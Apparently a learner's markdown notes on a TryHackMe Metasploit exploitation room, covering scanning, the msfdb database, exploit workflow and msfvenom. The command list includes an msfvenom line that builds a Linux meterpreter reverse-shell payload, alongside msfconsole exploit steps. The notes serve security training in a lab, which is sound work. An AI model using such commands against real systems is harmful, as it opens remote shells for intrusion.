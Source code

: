 # Room: Metasploit: Exploitation (TryHackMe)

**Date:** 6 Oct 2025  
**Path:** Cyber Security 101  
**Goal:** Use Metasploit for scanning, vulnerability assessment and exploitation; learn msfdb, vulnerability scanning integration, msfvenom usage, and exploitation workflows.

## 1. Key Concepts Learned

* **Scanning with Metasploit**:

  * Metasploit can be used for host discovery and port scanning (integrates with Nmap results).  
  * Auxiliary scanner modules help enumerate services and gather data for exploitation.

* **The Metasploit Database (msfdb / msfconsole integration)**:

  * msfdb stores discovered hosts, services, credentials and loot, enabling persistent workspace data across sessions.  
  * Import Nmap scan results into the database to avoid re-scanning and to drive module selection.

* **Vulnerability Scanning**:

  * Metasploit integrates with vulnerability scanners and supports auxiliary modules that probe for known CVEs.  
  * Use results to identify exploit candidates and prioritize targets.

* **Exploitation Workflow**:

  * Typical flow: discover targets → import to msfdb → search for relevant exploits → configure exploit and payload → exploit → post-exploitation.  
  * Choose payload type (staged vs single) depending on network and target constraints.

* **Msfvenom**:

  * `msfvenom` creates payloads (shellcode, executables, scripts) in various formats and supports encoding/formatting options.  
  * Useful for generating custom payloads for different OS/architectures and for testing delivery methods.

## 2. Commands / Tools Practiced

* `nmap -sV -oX nmap.xml target` and `db_import nmap.xml` (importing scan results into Metasploit DB).  
* `msfdb init` / `msfdb start` — manage the Metasploit database (varies by distro/setup).  
* `msfconsole` — use `search`, `use`, `set RHOSTS`, `set PAYLOAD`, `exploit`.  
* `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=... LPORT=... -f elf -o shell.elf` — generate a payload.  
* `workspace` and `hosts` / `services` commands inside msfconsole to manage data.

## 3. Takeaways

* Metasploit streamlines exploitation by combining discovery, module selection and payload delivery in a single framework.  
* The internal database is extremely useful for organizing reconnaissance data and avoiding repetitive scans.  
* msfvenom is a flexible payload generation tool, but payload delivery and post-exploitation must be carefully handled in safe lab environments.

## 4. Next Steps

* Practice full exploit chains in a controlled lab: scan, import, exploit, and post-exploit using msfconsole and msfvenom.  
* Explore integrating Metasploit with other tools (Nessus, OpenVAS) and automating workflows with scripts.  
* Learn Meterpreter post-exploitation commands and persistence techniques (lab-only).

